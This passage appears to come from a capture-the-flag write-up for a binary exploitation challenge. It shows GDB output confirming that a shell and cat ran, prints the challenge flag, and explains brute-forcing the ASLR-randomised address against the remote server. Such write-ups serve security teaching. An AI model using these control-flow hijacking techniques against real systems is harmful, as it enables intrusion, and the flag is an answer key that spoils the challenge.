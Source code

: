 ![](./flag1-4.png)

The left pane should have something like this:

```
process 36414 is executing new program: /usr/bin/dash
[Attaching after process 36414 fork to child process 36415]
[New inferior 5 (process 36415)]
[Detaching after fork from parent process 36414]
[Inferior 4 (process 36414) detached]
process 36415 is executing new program: /usr/bin/cat
[Inferior 5 (process 36415) exited normally]
```

Indicating that `/bin/sh` followed by `/usr/bin/cat` was executed.

Exploit achieved.

If you type `print(p.recvline())` in the right pane you should get the output of the `cat` command, IOW, `flag1.txt`:

```
>>> print(p.recvline())
b'> > > pctf{34zy_fl4g_h3r3_n0t_muc4_m0r3}\n'
```

There's one last bit to figure out; that leading `7`.  The difference between the base process address and `win` is `0x9ec`. The `7` was random (ASLR) and will need to be brute-forced as well when exploiting the remote server (no GDB to help you there):

Replacing:

```
import code
code.interact(
    local=locals(),
    banner="\nfrom another terminal type: gef blindpiloting " + str(p.pid) + "\n",
    exitmsg="\ngoing back to code\n"
)
```
